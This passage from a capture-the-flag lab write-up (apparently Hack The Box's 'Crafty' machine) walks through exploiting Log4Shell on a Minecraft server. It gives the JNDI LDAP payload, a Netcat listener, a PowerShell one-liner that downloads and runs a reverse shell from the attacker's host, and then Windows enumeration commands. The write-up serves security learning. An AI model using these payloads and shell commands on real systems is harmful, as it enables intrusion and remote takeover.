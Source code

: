 2. Downloaded and extracted Java 8u20 (required for compatibility; Oracle account needed):
   ```bash
   # Download from https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
   tar -xzvf jdk-8u20-linux-x64.tar.gz
   ```

3. Modified `poc.py` (line 26) to use `powershell.exe` for Windows:
   - Changed the command execution to: `cmd = 'powershell.exe'`.

4. Hosted the exploit (replace `<VPN_IP>` with your HTB VPN IP, e.g., 10.10.14.15):
   ```bash
   python3 poc.py --userip <VPN_IP> --webport 8000 --lport 443
   ```

5. Set up a Netcat listener:
   ```bash
   sudo rlwrap nc -lnvp 443
   ```

6. In the Minecraft client chat (press `T` to open), sent the payload:
   ```
   ${jndi:ldap://<VPN_IP>:1389/a}
   ```

The server processed the message, performed a JNDI lookup to the attacker's LDAP server, downloaded the malicious Java class from port 8000, and executed a reverse shell via PowerShell to port 443. A shell as `svc_minecraft` was received.

The shell was unstable initially; stabilized with:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<VPN_IP>:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <VPN_IP> -Port 4444
```

(Hosted a PowerShell reverse shell script on port 8000 beforehand.)

---

## Local Enumeration & User Flag

As `svc_minecraft` on Windows Server 2019:

- Confirmed environment:
  ```powershell
  systeminfo
  ```
  (Output confirmed hostname `CRAFTY`, OS: Windows Server 2019 Build 17763, etc.)

- Enumerated users and groups:
  ```powershell
  net user
  net localgroup
  ```

- Found installed programs via WMI:
  ```cmd
  wmic product get name,version
  ```
